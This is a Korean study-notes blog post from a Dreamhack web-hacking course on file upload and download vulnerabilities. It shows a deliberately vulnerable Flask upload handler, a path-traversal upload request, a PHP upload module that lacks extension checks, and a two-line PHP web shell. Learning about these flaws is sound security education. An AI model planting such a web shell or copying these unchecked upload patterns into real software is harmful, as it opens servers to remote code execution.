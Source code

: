 ```yaml
---
layout : single
title : "STAGE8. File Vulnerability (1)"
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 ServerSide : File Vulnerability (1)

-  [x] 웹 셸 업로드 실습
-  [x] 악성 파일 업로드 실습


## ServerSide : File Vulnerability

이미지, 문서 등 파일 공유 서비스를 개발할 때, 이용자가 업로드한 파일을 데이터베이스가 아닌, 서버의 파일시스템에 저장하는 것이 개발하기 더 쉬복, 관리 효율이 높다. 그러나, 이러한 방식은 임의 파일이 다운로드 되는 취약점이나, 악성 웹셸 파일을 업로드하여 임의 코드를 실행할 수 있는 취약점을 발생시키기도 한다. File Vulnerability는 파일 업로드 취약점인  File Upload Vulnerability와 다운로드 취약점인 File Download Vulnerability로 나뉜다. 

- File Upload Vulnerability : 파일 시스템 상 임의 경로에 원하는 파일을 업로드하거나, 악성 확장자를 갖는 파일을 업로드할 수 있을 때 발생한다. 원하는 시스템 커맨드를 실행하는 워격 코드 실행 취약점을 유발할 수 있다

- File Download Vulnerability : 공격자는 웹 서비스의 파일 시스템에 존재하는 임의 파일을 다운로드 받을 수 있으며, 이에는 패스워드 파일, 데이터베이스 백업본 등이 포함되어, 민감한 정보의 탈취 및 2차 공격 수행이 가능하다

## File Upload Vulnerability
웹 서비스를 통해 이용자의 파일을 서버의 파일 시스템에 업로드하는 과정에서 발생하며, 이용자가 업로드될 파일의 이름을 임의로 정할 수 있을 때 발생한다. 파일 이름에 이용자가 입력한 문자열을 그대로 사용하거나, 이용자의 이메일, 닉네임 등을 포함시키는 등의 소스 코드 패턴이 이러한 취약점을 발생시킨다. 

### Path Traversal
파일 업로드를 허용하는 대개의 서비스는 보안을 위해 특정 디렉토리에만 업로드를 허용한다. 이러한 제한이 없다면, 악의적인 이용자가 웹 서버의 소스 코드나 서버에 있는 중요 시스템 파일을 덮어쓸 위험이 있다. Path Traversal은 업로드에 존재하는 이러한 제약을 우회하여, 임의 디렉토리에 파일을 업로드할 수 있는 취약점을 뜻한다.<br><br>

아래 코드는 Path Traversal 취약점이 있는 코드이다

```python
from flask import Flask, request
app = Flask(__name__)
@app.route('/fileUpload', methods = ['GET', 'POST'])
def upload_file():
	if request.method == 'POST':
		f = request.files['file']
		f.save("./uploads/" + f.filename)
		return 'Upload Success'
	else:
		return """
		<form action="/fileUpload" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" />
			<input type="submit"/>
		</form>
		"""
if __name__ == '__main__':
	app.run()
```
/fileUpload는 POST 요청을 받으면 클라이언트가 전송한 파일을 ./uploads에 저장한다. 이 때 이용자가 입력한 파일 이름 f.file을 그대로 사용하기 때문에, Path Traversal에 취약하다. 예를 들어, 공격자가 ../와 같은 메타문자를 사용한다면, uploads를 벗어나 상위 디렉토리에 파일 업로드할 수 있다.<br><br>

정상적인 파일 업로드 HTTP 요청

```
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
upload test !
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

<br>
위와 같은 정상적인 파일 업로드 HTTP 요청이 전송되면, 아래와 같이, uploads 폴더에 test.txt가 생성된다

```
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```
---

악의적인 파일 업로드 HTTP 요청

```
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="../hack.py"
Content-Type: text/plain
[malicious file content]
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

<br>
위와 같은 악의적인 파일 업로드 HTTP 요청이 전송되면, 아래와 같이, app.py와 같은 디렉토리에 hack.py가 생성된다. hack.py가 app.py를 덮는다면, 서버가 재실행될 때 임의 파이썬 코드를 실행할 수 있을 것이다

```
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
-rw-r--r--  1 dreamhack  staff  431  1 30 22:12 hack.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```

---

### 악성 파일 업로드
악성 파일 업로드 취약점은 이용자가 파일을 업로드할 때 이를 제대로 검사하지 않아서 발생하는 취약점을 뜻한다. 

##### 웹 셸
웹 서버는 .php .jsp, .asp 와 같은 확장자의 파일을 CGI(Common Gatewqy Interface)로 실행하고, 그 결과를 이용자에게 반환한다. 

```
<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

이는 Apache 설정 파일로, 이용자가 요청한 파일의 확장자가 정규표현식을 만족하면, x-httpd-php로 핸들링하게 한다. x-httpd-php는 PHP 엔진으로, 요청한 파일을 실행하고 결과를 반환하며, .php, .php3, .phtml 의 확장자 파일들이 위 해당 정규표현식을 만족한다. <br><br>
위와 같은 방법으로 php 파일을 핸들링할 경우, 공격자가 임의의 php 파일을 .php 확장자로 업로드하고, GET 요청을 보낼 수 있다면 CGI에 의해 해당 코드가 실행되도록 할 수 있다.

##### 악의적인 웹 리소스
웹 브라우저는 파일의 확장자나 응답의 Content-Type에 따라 요청을 다양하게 처리한다. 요청한 파일의 확장자가 .html 또는, 반환된 Content-Type의 헤더가 text/html일 경우, 응답은 HTML 엔진으로 처리된다. 또한, 파일의 확장자가 .png, .jpg 등의 이미지 확장자이거나, Content-Type이 image/png일 경우에는 이미지로 렌더링 된다. <br><Br>
만약 공격자가 서버에 exploit.html을 업로드하고, 이에 접근하는 URL이 https:// dreamhack.io/uploads/exploit.html 이라면, 브라우저는 이를 HTML로 해석한다. 따라서 exploit.html에 악의적인 스크립트를 삽입하면, Cross-Site-Scripting (XSS) 공격으로 이어질 수 있습니다.

---

### 악성 파일 업로드 실습

악성 파일 업로드 모듈 구성 코드

```php
<?php
if(!empty($_FILES['file'])){
  $filename = "user_uploaded_file_".time();
  $ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
  $path = "./uploads/" . $filename . "." . $ext;
  
  if(move_uploaded_file($_FILES['file']['tmp_name'], $path)) {
    return true; // upload success
  } else {
    return false; // upload fail
  }
}
?>
```

파일 이름을 임의의 파일명 + . + 확장자 로 생성하므로, Path Traversal을 이용한 공격은 불가능하다. 하지만, 이용자가 올린 확장자를 별다른 검사 없이 사용하므로 php 웹셸을 업로드할 수 있다. 또한, html 파일을 업로드하여 Stored XSS를 수행할 수도 있다.<br>

##### 웹 셸 업로드

```php
<?php
  system("ls");
  system($_GET[x]);
?>
```

##### Stored XSS 시도

악성 파일 업로드

<img src = "/images/webbackground/12.png"><br>

업로드 된 파일 실행

<img src = "/images/webbackground/13.png"><br>